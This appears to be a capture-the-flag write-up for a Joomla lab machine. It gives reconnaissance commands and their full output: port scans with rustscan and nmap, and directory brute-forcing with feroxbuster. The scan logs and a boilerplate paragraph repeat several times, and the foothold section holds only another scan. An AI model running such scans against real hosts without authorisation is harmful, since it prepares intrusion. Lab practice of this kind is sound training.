

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | 22/tcp on 10.10.42.138, 80/tcp on 10.10.42.138, 22/tcp open  ssh, 80/tcp open  http, 22/tcp   open  ssh, 80/tcp   open  http |
| Primary Entry Vector      | sqli, lfi, privilege-escalation |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan
We run the following command to enumerate reachable services and reduce the unknown attack surface. At this stage, the objective is to identify exposed ports, service versions, and any obvious misconfigurations. The output guides which endpoint should be prioritized for deeper exploitation.
```bash
rustscan -a $ip --ulimit 5000 -- -A -sV
┌──(root㉿LAPTOP-P490FVC2)-[~]
└─# rustscan -a $ip --ulimit 5000 -- -A -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Open ports, closed hearts.

[~] The config file is expected to be at "/root/snap/rustscan/208/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.42.138:22
Open 10.10.42.138:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -A -sV" on ip 10.10.42.138
Depending on the complexity of the script, results may take some time to appear.
adjust_timeouts2: packet supposedly had rtt of -96828 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -96828 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -96865 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -96865 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -97998 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -97998 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -97641 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -97641 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -57519 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -57519 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -53635 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -53635 microseconds.  Ignoring time.
[~]
Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-30 22:32 JST
NSE: Loaded 146 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 22:32
Completed NSE at 22:32, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 22:32
Completed NSE at 22:32, 0.00s elapsed
Initiating Ping Scan at 22:32
Scanning 10.10.42.138 [4 ports]
Completed Ping Scan at 22:32, 0.48s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:32
Completed Parallel DNS resolution of 1 host. at 22:32, 0.01s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 22:32
Scanning 10.10.42.138 [2 ports]
Discovered open port 22/tcp on 10.10.42.138
Discovered open port 80/tcp on 10.10.42.138
Completed SYN Stealth Scan at 22:32, 0.47s elapsed (2 total ports)
Initiating Service scan at 22:32
Scanning 2 services on 10.10.42.138
Completed Service scan at 22:32, 11.80s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.42.138
Retrying OS detection (try #2) against 10.10.42.138
Initiating Traceroute at 22:32
Completed Traceroute at 22:32, 0.25s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 22:32
Completed Parallel DNS resolution of 2 hosts. at 22:32, 0.01s elapsed
DNS resolution of 2 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
NSE: Script scanning 10.10.42.138.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 22:32
Completed NSE at 22:32, 7.14s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 22:32
Completed NSE at 22:32, 0.00s elapsed
Nmap scan report for 10.10.42.138
Host is up, received echo-reply ttl 63 (0.23s latency).
Scanned at 2024-10-30 22:32:13 JST for 29s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: ASUS RT-N56U WAP (Linux 3.4) (94%), Linux 3.1 (94%), Linux 3.16 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.13 (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.60%E=4%D=10/30%OT=22%CT=%CU=34982%PV=Y%DS=2%DC=T%G=N%TM=6722357A%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=Z%TS=A)
OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.005 days (since Wed Oct 30 22:25:45 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   231.84 ms 10.11.0.1
2   232.01 ms 10.10.42.138

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 22:32
Completed NSE at 22:32, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 22:32
Completed NSE at 22:32, 0.00s elapsed
Read data files from: /snap/rustscan/208/usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.26 seconds
           Raw packets sent: 95 (8.184KB) | Rcvd: 289 (25.786KB)
```

## Nmap
We run the following command to enumerate reachable services and reduce the unknown attack surface. At this stage, the objective is to identify exposed ports, service versions, and any obvious misconfigurations. The output guides which endpoint should be prioritized for deeper exploitation.
```bash
nmap -p- -sC -sV -T4 -A $ip
```

We run the following command to enumerate reachable services and reduce the unknown attack surface. At this stage, the objective is to identify exposed ports, service versions, and any obvious misconfigurations. The output guides which endpoint should be prioritized for deeper exploitation.
```bash
nmap -p- -sC -sV -T4 -A $ip
✅[22:25][CPU:2][MEM:9][IP:172.17.0.1][/home/n0z0]
🐉 > nmap -p- -sC -sV -T4 -A $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-30 22:26 JST
Nmap scan report for 10.10.42.138
Host is up (0.23s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/30%OT=22%CT=1%CU=34786%PV=Y%DS=2%DC=T%G=Y%TM=672
OS:2358A%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%II=I%TS=A)SEQ(
OS:SP=105%GCD=1%ISR=109%TI=Z%CI=I%TS=A)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=I%I
OS:I=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW
OS:7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF
OS:%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%
OS:S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%
OS:RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W
OS:=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
OS:U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%D
OS:FI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   231.23 ms 10.11.0.1
2   231.46 ms 10.10.42.138

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 409.41 seconds
```

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### 2. Local Shell

---

This section records the steps from initial intrusion to obtaining a user shell. Keep track of the intent of the command execution and what output you should see next (credentials, misconfigurations, execution privileges).

### Implementation log (integrated)

At this point, we execute the command to turn enumeration findings into a practical foothold. The goal is to obtain either code execution, reusable credentials, or a stable interactive shell. Relevant options are preserved so the step can be repeated exactly during verification.
```bash
nmap -p- -sC -sV -T4 -A $ip
✅[22:25][CPU:2][MEM:9][IP:172.17.0.1][/home/n0z0]
🐉 > nmap -p- -sC -sV -T4 -A $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-30 22:26 JST
Nmap scan report for 10.10.42.138
Host is up (0.23s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/30%OT=22%CT=1%CU=34786%PV=Y%DS=2%DC=T%G=Y%TM=672
OS:2358A%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%II=I%TS=A)SEQ(
OS:SP=105%GCD=1%ISR=109%TI=Z%CI=I%TS=A)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=I%I
OS:I=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW
OS:7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF
OS:%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%
OS:S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%
OS:RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W
OS:=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
OS:U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%D
OS:FI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   231.23 ms 10.11.0.1
2   231.46 ms 10.10.42.138

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 409.41 seconds
```

rustscan is really fast

```bash
┌──(root㉿LAPTOP-P490FVC2)-[~]
└─# rustscan -a $ip --ulimit 5000 -- -A -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Open ports, closed hearts.

[~] The config file is expected to be at "/root/snap/rustscan/208/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.42.138:22
Open 10.10.42.138:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -A -sV" on ip 10.10.42.138
Depending on the complexity of the script, results may take some time to appear.
adjust_timeouts2: packet supposedly had rtt of -96828 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -96828 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -96865 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -96865 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -97998 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -97998 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -97641 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -97641 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -57519 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -57519 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -53635 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -53635 microseconds.  Ignoring time.
[~]
Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-30 22:32 JST
NSE: Loaded 146 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 22:32
Completed NSE at 22:32, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 22:32
Completed NSE at 22:32, 0.00s elapsed
Initiating Ping Scan at 22:32
Scanning 10.10.42.138 [4 ports]
Completed Ping Scan at 22:32, 0.48s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:32
Completed Parallel DNS resolution of 1 host. at 22:32, 0.01s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 22:32
Scanning 10.10.42.138 [2 ports]
Discovered open port 22/tcp on 10.10.42.138
Discovered open port 80/tcp on 10.10.42.138
Completed SYN Stealth Scan at 22:32, 0.47s elapsed (2 total ports)
Initiating Service scan at 22:32
Scanning 2 services on 10.10.42.138
Completed Service scan at 22:32, 11.80s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.42.138
Retrying OS detection (try #2) against 10.10.42.138
Initiating Traceroute at 22:32
Completed Traceroute at 22:32, 0.25s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 22:32
Completed Parallel DNS resolution of 2 hosts. at 22:32, 0.01s elapsed
DNS resolution of 2 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
NSE: Script scanning 10.10.42.138.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 22:32
Completed NSE at 22:32, 7.14s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 22:32
Completed NSE at 22:32, 0.00s elapsed
Nmap scan report for 10.10.42.138
Host is up, received echo-reply ttl 63 (0.23s latency).
Scanned at 2024-10-30 22:32:13 JST for 29s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: ASUS RT-N56U WAP (Linux 3.4) (94%), Linux 3.1 (94%), Linux 3.16 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.13 (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.60%E=4%D=10/30%OT=22%CT=%CU=34982%PV=Y%DS=2%DC=T%G=N%TM=6722357A%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=Z%TS=A)
OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.005 days (since Wed Oct 30 22:25:45 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   231.84 ms 10.11.0.1
2   232.01 ms 10.10.42.138

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 22:32
Completed NSE at 22:32, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 22:32
Completed NSE at 22:32, 0.00s elapsed
Read data files from: /snap/rustscan/208/usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.26 seconds
           Raw packets sent: 95 (8.184KB) | Rcvd: 289 (25.786KB)
```

When you run fuzzing, a directory of interest appears.

```bash
❌[22:33][CPU:0][MEM:9][IP:10.11.87.75][/home/n0z0]
🐉 > feroxbuster -u http://$ip -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100 -x php,html,txt -r --timeout 3 --no-state -s 200,301 -e -E

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.42.138
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
 👌  Status Codes          │ [200, 301]
 💥  Timeout (secs)        │ 3
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt]
 💰  Collect Extensions    │ true
 💸  Ignored Extensions    │ [Images, Movies, Audio, etc...]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        1l        2w       31c http://10.10.42.138/bin/
200      GET        1l        2w       31c http://10.10.42.138/tmp/
200      GET        1l        2w       31c http://10.10.42.138/tmp/index.html
200      GET        1l        2w       31c http://10.10.42.138/bin/index.html
200      GET        1l        2w       31c http://10.10.42.138/language/
200      GET        1l        2w       31c http://10.10.42.138/templates/
200      GET       27l       56w     2692c http://10.10.42.138/templates/protostar/favicon.ico
200      GET       60l      170w     1783c http://10.10.42.138/templates/protostar/js/template.js
200      GET        2l      281w    10056c http://10.10.42.138/media/jui/js/jquery-migrate.min.js
200      GET        1l        3w      345c http://10.10.42.138/media/system/js/keepalive.js
200      GET        1l        1w       21c http://10.10.42.138/media/jui/js/jquery-noconflict.js
200      GET        1l      178w     6470c http://10.10.42.138/media/system/js/polyfill.event.js
200      GET        4l       85w     2730c http://10.10.42.138/media/jui/js/html5.js
200      GET        1l       94w     7512c http://10.10.42.138/media/system/js/core.js
200      GET        4l       17w      491c http://10.10.42.138/media/system/js/caption.js
200      GET        1l        2w       31c http://10.10.42.138/components/
200      GET        8l      321w    29156c http://10.10.42.138/media/jui/js/bootstrap.min.js
200      GET      277l     1480w   130479c http://10.10.42.138/images/spiderman_robbery.jpeg
200      GET     7727l    17395w   163282c http://10.10.42.138/templates/protostar/css/template.css
200      GET      418l     2490w   208614c http://10.10.42.138/images/logo.png
200      GET      221l      568w     8297c http://10.10.42.138/index.php/component/users
200      GET       58l      115w      753c http://10.10.42.138/templates/protostar/css/offline.css
200      GET        6l       32w     2482c http://10.10.42.138/media/jui/js/bootstrap-tooltip-extended.min.js
200      GET      144l      378w     4086c http://10.10.42.138/media/jui/js/fielduser.js
200      GET        1l       48w     7580c http://10.10.42.138/media/jui/js/jquery.searchtools.min.js
200      GET      326l     1144w    10331c http://10.10.42.138/media/jui/js/html5-uncompressed.js
200      GET      130l      383w     4478c http://10.10.42.138/media/jui/js/ajax-chosen.js
200      GET      410l      949w    10797c http://10.10.42.138/media/jui/js/jquery.searchtools.js
200      GET      283l      860w     9616c http://10.10.42.138/media/jui/js/sortablelist.js
200      GET       17l       46w     2821c http://10.10.42.138/media/jui/js/ajax-chosen.min.js
200      GET       45l      154w     1140c http://10.10.42.138/templates/protostar/js/classes.js
200      GET        5l       55w     2634c http://10.10.42.138/media/jui/js/treeselectmenu.jquery.min.js
200      GET      170l      603w     5902c http://10.10.42.138/media/jui/js/bootstrap-tooltip-extended.js
200      GET      242l      659w     9278c http://10.10.42.138/index.php
200      GET        6l       45w     3091c http://10.10.42.138/media/jui/js/jquery.simplecolors.min.js
200      GET      242l      687w     9763c http://10.10.42.138/index.php/2-uncategorised/1-spider-man-robs-bank
